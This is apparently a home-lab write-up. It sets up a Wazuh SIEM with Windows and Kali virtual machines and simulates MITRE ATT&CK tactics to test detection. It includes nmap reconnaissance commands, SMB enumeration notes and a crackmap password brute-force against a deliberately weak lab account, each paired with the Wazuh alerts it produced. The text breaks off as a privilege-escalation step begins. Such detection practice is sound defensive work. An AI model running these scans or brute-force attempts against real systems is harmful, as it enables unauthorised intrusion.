# 𑣲    : Wazuh Detection


**Contents:**
1. VM Setups.
2. Wazuh Setup.
3. MITRE Phase simulation.
4. Dashboard Timeline.
5. ossec.conf.
6. Challenges.

**Tool usage:** VirtualBox, Wazuh, CMD, PowerShell, Event Viewer, Sysmon, WinPEAS, Metasploit, freerdp3, nmap, crackmap (Hydra sub), msfvenom, Wireshark.

---
# VM Setups
*Installing the ISO's into VirtualBox with their respective allocations and configs.*
1. Ubuntu Linux Client (Wazuh server) - https://ubuntu.com/download/desktop.

2. Windows 10 Client (Wazuh agent) - https://www.microsoft.com/en-us/software-download/windows10.
  
  - If you dont want to use the tool you can F12 the site -> toggle to device/mobile and get the ISO.
3. Kali Linux Client (Malicious actor) - https://www.kali.org/get-kali/#kali-platforms.
  

# Wazuh Setups

## Wazuh server (Ubuntu)
- On the Ubuntu machine I installed curl, then ran: ```curl -s0 https://packages.wazuh.com/4.14/wazuh-install.sh && sudo bash ./wazuh-install.sh -a```.
- There was a minimum hardware requirement failure and so I increased my CPUs to 2 on Virtualbox > Settings > System > Processors, and disk space increasing it first on my host with Command Prompt: ```VBoxManage modifymedium disk "PASTE_FULL_VDI_PATH_HERE" --resize 61440 ```  and then within the Ubuntu machine by downloading the Gparted GUI.


- Server and dashboard ready!
 
  

  
## Wazuh agent (Windows 10)
- I installed my agent on Windows 10 VM PS using this command provided by the Wazuh dashboard: ```Invoke-WebRequest -Uri https://packages.wazuh.com/4.x/windows/wazuh-agent-4.14.2-1.msi -OutFile $env:tmp\wazuh-agent; msiexec.exe /i $env:tmp\wazuh-agent /q WAZUH_MANAGER="10.0.2.15" WAZUH_AGENT_GROUP="default" WAZUH_AGENT_NAME="Windows10"```.

- I encountered problems because when using VMs by default network settings they cannot see eachother, I created an isolated NAT Network on Virtualbox and added every machine to it so they can say hi. Additionally I enabled RDP, network discovery and enabled file and printer sharing rules in order for the lab to go more smoothly between machines (To me it's more about interacting with Wazuh than being a realistic break-in.)





- Then the Wazuh server address was incorrect that the agent was trying to connect to (No new agents showed on dashboard) so I went to the ossec file as admin in notepad and manually altered it from 0.0.0.0 to the correct IP.




---
# MITRE Tactics Simulation
- The Cyber Kill Chain and Diamond Model were each a bit too niche for this situation and so I decided to go with MITRE in terms of an industry default and non-linear framework. Choosing: Reconnaisance, Initial Access, Persistence, Privilege Escalation, Defence Evasion, Discovery, Lateral Movement & Command and Control. Other techniques were not as revelant to my setup or goals and would be more suited towards a pen-testing or larger enterprise simulation.



## (TA0043) Reconnaissance 
*Active or passive information gathering that may support things such as targeting, initial access and future actions of the malicious user.*
**Active Scanning (T1595), Host discovery (T1018), Victim Network Information (T1590) & Victim Host Information (T1592):**

- **nmap scanning (Light to heavy)**
```nmap -sn <subnet>``` (sn = no port scan, just checking if hosts are alive).

```nmap --top-ports 100 -sS -sV <win10>``` Scoping, (sS = stealth, sV= service & version detection).

```nmap -sS -sV -O <win10>``` Narrowing scope (O = OS detection).

```nmap -sU --top-ports 20 <target>``` UDP Service check (sU = UDP scan).

```nmap -T4 -sS <win10>``` Aggressive scan (T4 = Fast scan with many probes of default 1-1000)


-  **SMB enumeration**
  Resuming nmap, I first chose this command ``nmap -sC -p 139,445 -sV 10.0.2.30`` that runs nmap's default scripts to confirm if SMB is there and open and collect basic leaks. 
  `` to get the more accurate SMB versions (SMB1 being obscelete and vulnerable" width="1000">. It showed usage of SMB 2 and 3.


- **Attacker POV**: nmap's 'open | filtered' response means it cannot determine if the port is open or filtered (firewall block). We can see 4 open TCP ports: `135` (RPC - Common Windows service communication),`139` (NetBIOS - File/printer sharing),`445` (SMB - File sharing, authentication, remote access) & `5357` (HTTP for Windows Web Services). For UDP only one certain open port `137` running netbios-ns (Registers and resolves local NetBIOS names to IP addresses). Most commonly the SMB `445` port would be further investigated becuase certain versions are historically vulnerable and it is often internally exposed which is great for credential abuse and lateral movement.

- **Response:** Initially attempting these scans picked up no visibility in Wazuh (I learned they don't tend to generate any Windows Events and just send packet probes, and you would need an IDS like Suricata). For quick visibility I used Wireshark to show exactly what the stealth vs full connect scans do in terms of handshakes.
Stealth:

Full connect (of open ports 135,139,445,3389 & 5357):

Full connect (of 445 - 'SYN' from us, 'SYN,ACK' from target, 'ACK' from target & 'RST, ACK' from us):


  I also installed Sysmon to make logs more substantial and sensitive. Wazuh has their own config file for sysmon and you just need to provide an output file: 

To check it was up and running correctly, I opened a notepad to make noise. Travelling to Event Viewer -> Applications and Services -> Microsoft -> Windows -> Sysmon. I then filtered events by ID of 1 (process creation) and increased the details tab size and found my notepad process creation!


A final step is adding Sysmon as a log source for Wazuh in the Wazuh ossec config file (.txt):


	To prove it is working and Wazuh is ingesting logs from it I executed a discovery command:

	
	

## (TA0001) Initial Access 
*Continuous or uncontinuous use of a primary foothold into a network.*
**Brute force (T1110), Valid account use (T1078), Remote access via RDP (T1133):**
-  An additional weak user was created through the Windows machine, and added to the RDP group.
  
  
 Hydra did not work with RDP or SMB brute forcing so I instead used crackmap. I created a smaller 50 password attempt .txt file (small.txt) from Kali's provided rockyou list, and made crackmap run for the target. `smb` is targeting the SMB service on the provided IP, `-u` the username and `-p` the inputted password list.
  
I created a smaller 50 password attempt .txt file from Kali's provided rockyou list, and made crackmap run for the target. Then I attempted the password I knew was correct and established a successful connection:

  
- **Response:** This generated alot of noise on Wazuh.


	I discovered these most common IDs and mapped them to the respective Windows Security Event Log ID's through the Wazuh JSON section of the inspected events:

	 *60122 - Failed logon*
   

	 *60115 - Account lockout* 
   
		*92213 - Executable is dropped in a folder commonly used by malware* (This scared me a bit since I hadn't gotten to doing that yet but I learned this happens when RDP is successful which I attempted earlier when troubleshooting Hydra, Windows creates many processes under a new logon context.)
  
  


  
## (TA0004) Privilege Escalation 
*Abusing things like system weaknesses / misconfigurations to vertically elevate current user permissions and ease future actions on objectives.*
**Valid Accounts (T1078), Exploitation for Privilege Escalation (T1068), Create or Modify System Process (T1543), Hijack Execution Flow (T1574), Remote Services (T1021):**

- Assuming we abused credential reusage for an SMB -> RDP GUI connection (for ease, however we could have used remote command execution over SMB too with psexec, wmiexec & smb exec), initially I created a vulnerable and weak service binary on the Windows machine. `start= auto` sets the service to automatically run when Windows boots.
